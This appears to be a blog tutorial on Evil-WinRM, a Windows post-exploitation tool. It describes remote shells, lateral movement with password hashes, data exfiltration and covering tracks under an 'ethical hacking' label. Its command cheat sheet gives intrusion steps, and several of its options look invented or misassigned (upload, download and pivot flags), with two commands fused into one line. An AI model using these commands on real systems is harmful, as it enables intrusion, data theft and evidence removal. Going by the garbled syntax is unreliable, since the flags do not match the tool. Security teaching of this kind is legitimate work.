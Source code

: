 Key Features of Evil-WinRM

1. **Remote Command Execution:** Evil-WinRM enables ethical hackers to execute commands on a compromised Windows machine, just like a typical reverse shell. This is particularly useful for exploring the system, gathering information, and performing further attacks.
2. **Interactive Shell:** It provides an interactive shell, giving ethical hackers full control over the target system, including the ability to browse files, install backdoors, and manipulate system settings.
3. **File Upload/Download:** Users can upload and download files between the attacker’s machine and the compromised Windows host, making data exfiltration and infiltration easier.
4. **Scripting Support:** Evil-WinRM supports scripting, allowing hackers to automate tasks and execute scripts on the target machine. This is valuable for post-exploitation activities.
5. **HTTPS and HTTP Support:** It can be configured to use both HTTPS and HTTP for communication, offering flexibility and better security options.

Ethical Hacking Use Cases

1. **Post-Exploitation:** After gaining initial access to a Windows machine, ethical hackers can utilize Evil-WinRM to further explore the system, collect sensitive information, and maintain persistence.
2. **Privilege Escalation:** The tool can be used to check for and exploit vulnerabilities that could lead to privilege escalation on the target system.
3. **Lateral Movement:** Ethical hackers can pivot between compromised Windows hosts, exploring the network’s inner layers and identifying potential targets for further exploitation.
4. **Data Exfiltration and Infiltration:** Evil-WinRM allows for easy data transfer, making it a valuable tool for retrieving sensitive data or planting malicious files on the target system.

Here are some common commands and examples of how to use Evil-WinRM in ethical hacking:

1. **Basic Connection:**

- To establish a connection with a remote Windows machine:
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD>`
- **Command Execution:**
- Execute a command on the compromised host:
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -e "command to execute"`
- **Interactive Shell:**
- Get an interactive shell on the target system:
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD>`
- **File Upload and Download:**
- Upload a file to the compromised host:

evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "source_file" -d "destination_directory"

- Download a file from the compromised host
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "source_file" -d "destination_directory"`
- **Script Execution:**
- Execute a PowerShell script on the target system:
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -s "powershell_script.ps1"`
- **Privilege Escalation:**
- Check for local privilege escalation vulnerabilities (requires access to the target system):
- `whoami /priv`
- **Lateral Movement:**
- Use Evil-WinRM to pivot to another host within the same network:
- `evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -smb <TARGET_IP> -h <HASH>`
- **Data Exfiltration:**
- Compress and exfiltrate sensitive data:
- `Compress-Archive -Path "data_directory" -DestinationPath "exfiltrated_data.zip" evil-winrm -i <IP_ADDRESS> -u <USERNAME> -p <PASSWORD> -g "exfiltrated_data.zip" -d "destination_directory"`
- **Cleanup and Cover Tracks:**
- Remove traces of your presence:
- `del /f /q "malicious_file.exe"`
